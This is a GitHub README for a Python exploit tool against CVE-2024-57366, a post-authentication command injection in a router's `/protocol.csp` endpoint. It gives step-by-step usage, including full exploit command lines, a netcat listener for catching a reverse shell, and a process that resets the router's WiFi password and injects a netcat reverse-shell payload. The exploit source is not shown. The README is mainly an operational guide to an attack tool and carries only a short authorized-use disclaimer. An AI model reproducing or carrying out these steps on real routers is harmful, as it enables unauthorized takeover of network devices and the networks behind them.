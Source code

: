 # CVE-2024-57366 Exploit

A robust exploit for CVE-2024-57366 that allows remote code execution on vulnerable routers through MAC address validation bypass and command injection.

This is a post-authorization exploit that requires the router "Remote Control" feature to be on, and the administrative password. The administrative
user name is hardcoded to "admin".

## 🚀 Features

- **Automatic MAC address registration** - Connects to WiFi to register MAC address with router
- **Network-preserving exploit** - Maintains your existing network connections during exploit
- **MAC address caching** - Fast repeat exploits using cached successful MAC addresses
- **BurpSuite-compatible** - Matches exact request format for maximum reliability
- **Timeout handling** - Helpful messages when reverse shell connections are expected
- **User-friendly** - Simple text-based MAC address cache for easy management

## 📋 Requirements

- Python 3.6+
- Linux system with wireless adapter
- `sudo` access (required for network interface management)
- Target router vulnerable to CVE-2024-57366

## 🛠️ Installation

1. Clone or download the exploit files
2. Ensure you have the required Python packages:
   ```bash
   pip3 install requests
   ```

## 🎯 Usage

### Basic Exploit (First Time)

```bash
sudo python3 exploit.py --target 192.168.1.187 --local-ip 192.168.1.9 --local-port 4444 --password admin123
```

### Quick Exploit (Using Cached MAC)

```bash
sudo python3 exploit.py --target 192.168.1.187 --local-ip 192.168.1.9 --local-port 4444 --password admin123
# Script will ask: "Use cached MAC for quick exploit? (y/n):" - say "y"
```

### Force Full Exploit (Skip Cache)

```bash
sudo python3 exploit.py --target 192.168.1.187 --local-ip 192.168.1.9 --local-port 4444 --password admin123 --force-full
```

### List Cached MAC Addresses

```bash
python3 exploit.py --list-cached
```

## 📖 Command Line Options

- `--target` - Target router IP address (default: 127.0.0.1)
- `--port` - Target router port (default: 80)
- `--local-ip` - Your local IP address for reverse shell callback
- `--local-port` - Local port for reverse shell callback (default: 4444)
- `--password` - Router admin password
- `--ssid` - WiFi network name (default: WAVLINK-Mesh_DC4B)
- `--force-full` - Force full exploit, skip cached MAC check
- `--list-cached` - List cached MAC addresses and exit

## 🔧 How It Works

### Technical Overview

CVE-2024-57366 exploits a MAC address validation bypass in router firmware. The vulnerability allows command injection through the `mac` parameter in the `/protocol.csp` endpoint.

### Exploit Process

1. **Authentication** - Extracts authentication token from router
2. **WiFi Password Reset** - Resets router WiFi password to match admin password
3. **MAC Registration** - Connects to WiFi to register MAC address with router
4. **Command Injection** - Injects reverse shell payload using registered MAC
5. **Network Preservation** - Maintains existing network connections throughout

### Key Technical Details

- **MAC Validation Bypass**: Router validates MAC addresses by checking if they've connected to WiFi
- **Network Interface Binding**: Uses `eth0` interface to preserve original network context
- **Request Format**: Matches BurpSuite format exactly (`index=1`, token in URL path)
- **Payload**: Netcat reverse shell with named pipe for reliability

### MAC Address Caching

The exploit automatically caches successful MAC addresses in `successful_macs.txt`:

```
# CVE-2024-57366 Successful MAC Addresses
# Format: MAC_ADDRESS TARGET_IP TIMESTAMP
# You can manually add entries here

32:98:A2:A8:5F:5F 192.168.1.187 1758305048.0 # 2025-09-19 14:44:08
```

**Manual MAC Addition**: Edit `successful_macs.txt` and add lines like:
```
AA:BB:CC:DD:EE:FF 192.168.1.100 1758305048.0 # 2025-09-19 14:44:08
```

## 🎯 Example Usage

### First Exploit Attempt

```bash
# Start netcat listener
nc -lvp 4444

# Run exploit
sudo python3 exploit.py --target 192.168.1.187 --local-ip 192.168.1.9 --local-port 4444 --password admin123

# When prompted to save MAC address, say "y"
```

### Subsequent Exploits (Much Faster)

```bash
# Start netcat listener
nc -lvp 4444

# Run exploit (will use cached MAC)
sudo python3 exploit.py --target 192.168.1.187 --local-ip 192.168.1.9 --local-port 4444 --password admin123
# Say "y" when asked about using cached MAC
```

## 🔍 Troubleshooting

### Common Issues

1. **"No wireless adapters found"**
   - Ensure you have a wireless adapter enabled
   - Check that WiFi is turned on
   - Try running with `sudo`

2. **"MAC address validation failed"**
   - The MAC address needs to be registered with the router
   - Ensure the WiFi connection step completed successfully
   - Try connecting to WiFi manually first

3. **"Request timed out"**
   - This might actually mean the exploit worked!
   - Check your netcat listener for a reverse shell connection
   - The router might be executing the command but not responding to HTTP

4. **"Reverse shell not connecting"**
   - Verify your `--local-ip` is correct (use `ip addr show eth0`)
   - Ensure no firewall is blocking the connection
   - Check that netcat listener is running on the correct port

### Network Requirements

- **eth0 interface**: Must have an IP address for network preservation
- **Wireless adapter**: Required for initial MAC registration
- **Router access**: Must be able to reach router via eth0 interface

## 📁 File Structure

```
CVE-2024-57366/
├── exploit.py              # Main exploit script
├── successful_macs.txt     # MAC address cache (auto-generated)
└── README.md              # This file
```

## ⚠️ Disclaimer

This tool is for educational and authorized testing purposes only. Only use on systems you own or have explicit permission to test. The authors are not responsible for any misuse of this tool.

## 🔗 References

- [CVE-2024-57366](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-57366)
- Router firmware vulnerability in MAC address validation
- Command injection through `/protocol.csp` endpoint

## 📝 License

This project is provided as-is for educational purposes. Use responsibly and in accordance with applicable laws and regulations.